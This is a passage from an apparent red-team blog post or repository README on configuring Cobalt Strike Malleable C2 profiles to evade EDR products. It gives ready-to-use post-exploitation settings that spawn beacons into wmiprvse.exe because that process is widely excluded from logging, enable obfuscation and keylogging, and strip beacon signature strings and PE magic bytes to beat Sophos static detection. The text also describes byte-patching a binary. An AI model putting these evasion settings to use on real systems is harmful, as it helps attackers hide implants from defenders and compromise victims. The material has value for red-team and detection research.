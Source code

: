 ```
```

The code searches for the byte sequence \x25\xff\xff\xff\x00\x3d\x41\x41\x41\x00 (and eax,0xFFFFFF) and replace it with the new byte sequence \xb8\x41\x41\x41\x00\x3D\x41\x41\x41\x00 (mov eax, 0xFFFFFF). The changes are later saved to the new binary file.

## Improving the Post Exploitation stage

We took our reference profile and updated the Post Exploitation profile to the following:

```
post-ex {
    set pipename "Winsock2\\CatalogChangeListener-###-0";
    set spawnto_x86 "%windir%\\syswow64\\wbem\\wmiprvse.exe -Embedding";
    set spawnto_x64 "%windir%\\sysnative\\wbem\\wmiprvse.exe -Embedding";
    set obfuscate "true";
    set smartinject "true";
    set amsi_disable "false";
    set keylogger "GetAsyncKeyState";
    #set threadhint "module!function+0x##"
}
```

We had to turn off threadhint due to detection and also with AMSI disable, since those are a prime memory IOCs. Some profiles are using svchost.exe as a process to spawn, but that should never be used anymore. A really good alternative is spawning to wmiprvse.exe since this processor is heavily excluded on Sysmon and other SIEMs due to the extreme amount of logs generated.

## Taking down the final boss

We cannot say this is a bypass unless we manage to bypass a fully-updated EDR; this time we went for Sophos. Bypassing Sophos (signature detection) was possible only by enabling the following option in the profile:

```
set magic_pe "EA";

transform-x64 {
    prepend "\x90\x90\x90\x90\x90\x90\x90\x90\x90"; # prepend nops
    strrep "This program cannot be run in DOS mode" "";
    strrep "ReflectiveLoader" "";
    strrep "beacon.x64.dll" "";
    strrep "beacon.dll" "";
}
```

We’ve added set magic_pe which changes the PE header magic bytes (and code that depends on these bytes) to something else. You can use whatever you want here, so long as it’s two characters. The prepend can be only NOPs instructions, but it is highly recommend to use a junk shellcode generated by our python script (which we explained on the previous sections of the blogpost). While it bypasses the static detection, it is obviously not good enough to bypass the runtime one.

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Cobalt-Strike-Profiles-for-EDR-Evasion/blob/main/3img/27.png" 
<p align="center">
